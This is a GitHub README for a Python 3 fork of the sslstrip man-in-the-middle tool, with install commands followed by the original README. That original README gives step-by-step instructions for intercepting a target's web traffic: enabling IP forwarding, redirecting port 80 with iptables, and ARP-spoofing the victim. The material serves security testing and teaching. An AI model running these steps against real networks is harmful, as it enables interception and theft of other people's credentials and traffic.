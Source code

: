 ## This is a fork of sslstrip to python3

### Installing

#### Withouth Virtualenv

`apt install python3 python3-pip git`
`git clone https://github.com/hallowf/sslstrip.git`
`cd sslstrip`
`python3 -m pip install -r requirements.txt`
`python3 sslstrip.py -h`

#### With Virtualenv

```
apt install python3 python3-pip git
git clone https://github.com/hallowf/sslstrip.git
cd sslstrip
python3 -m pip install virtualenv
virtualenv venv
source venv/bin/activate
pip install -r requirements.txt
python sslstrip.py -h
```

### I haven't looked at setup.py so it probably won't work

### Original README --->
sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping
attacks.

It requires Python 2.5 or newer, along with the 'twisted' python module.

Installing:
	* Unpack: tar zxvf sslstrip-0.5.tar.gz
	* Install twisted:  sudo apt-get install python-twisted-web
	* (Optionally) run 'python setup.py install' as root to install,
	  or you can just run it out of the directory.  

Running:
	sslstrip can be run from the source base without installation.  
	Just run 'python sslstrip.py -h' as a non-root user to get the
	command-line options.

	The four steps to getting this working (assuming you're running Linux)
	are:

	1) Flip your machine into forwarding mode (as root):
	   echo "1" > /proc/sys/net/ipv4/ip_forward

	2) Setup iptables to intercept HTTP requests (as root):
	   iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>

	3) Run sslstrip with the command-line options you'd like (see above).

	4) Run arpspoof to redirect traffic to your machine (as root):
	   arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>

More Info:
	http://www.thoughtcrime.org/software/sslstrip/
